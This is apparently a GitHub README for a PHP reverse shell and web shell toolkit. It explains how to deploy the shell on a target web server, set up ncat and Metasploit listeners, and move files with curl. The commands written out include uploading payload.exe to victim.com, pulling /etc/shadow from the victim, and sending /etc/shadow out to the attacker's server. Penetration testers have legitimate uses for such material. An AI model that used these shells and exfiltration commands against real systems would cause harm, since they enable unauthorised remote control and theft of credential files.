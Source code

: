 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## Table of Contents

* [Reverse Shells](#reverse-shells)
* [Web Shells](#web-shells)
* [File Upload/Download Script](#file-uploaddownload-script)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## Reverse Shells

[/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is used.

[/src/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the scripts as necessary.**

Copy [/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## Web Shells

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

## File Upload/Download Script

Check the [simple PHP file upload/download script](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/files.php) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```bash
curl -s -k -X 'POST' 'https://victim.com/files.php' -F 'file=@/root/payload.exe'
```

Download a file from the victim's PC to your PC:

```bash
curl -s -k -X 'GET' 'https://victim.com/files.php?file=/etc/shadow' -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```bash
curl -s -k -X 'POST' 'https://your-server.com/files.php' -F 'file=@/etc/shadow'
```

Download a file from your PC to the victim's PC:

```bash
curl -s -k -X 'GET' 'https://your-server.com/files.php?file=/root/payload.exe' -o payload.exe

curl -s -k -X 'GET' 'https://your-server.com/payload.exe' -o payload.exe
```

## Minified Scripts

Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified) directory.

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
